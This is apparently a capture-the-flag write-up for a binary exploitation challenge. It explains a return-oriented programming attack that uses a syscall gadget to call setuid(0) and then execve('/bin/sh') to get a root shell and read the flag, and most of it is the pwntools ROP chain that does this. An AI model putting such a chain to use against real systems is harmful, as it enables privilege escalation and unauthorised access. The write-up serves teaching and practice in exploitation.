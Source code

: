 In this challenge the `/flag` file is never opened. 

But there is a `syscall` rop gadget present there which means we can call any syscall

So first we will call setuid with argument 0 so that it grant root access
Next we can call execve with argument /bin/sh. 
We can put the string /bin/sh at the start of the input buffer and give the address of input buffer to the execve function. 
The address is leaked by the program itself.
This shell will have root access which means we can read flag file.

```python
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])
pop_rax = rop.find_gadget(['pop rax', 'ret'])
syscall = rop.find_gadget(['syscall'])  # Address of the syscall gadget

#call setuid
rop.raw(pop_rdi)
rop.raw(0)              # Argument for setuid (0 = root)
rop.raw(pop_rax)
rop.raw(105)            # Syscall number for setuid
rop.raw(syscall)  

# Set up the ROP chain to call execve("/bin/sh", 0, 0)
rop.raw(pop_rdi)
rop.raw(bin_sh_addr)  # Address of "/bin/sh" string
rop.raw(pop_rsi)
rop.raw(0)            # argv = NULL
rop.raw(pop_rdx)
rop.raw(0)            # envp = NULL
rop.raw(pop_rax)
rop.raw(59)           # Syscall number for execve
rop.raw(syscall)      # Invoke syscall
```

(https://x64.syscall.sh/)
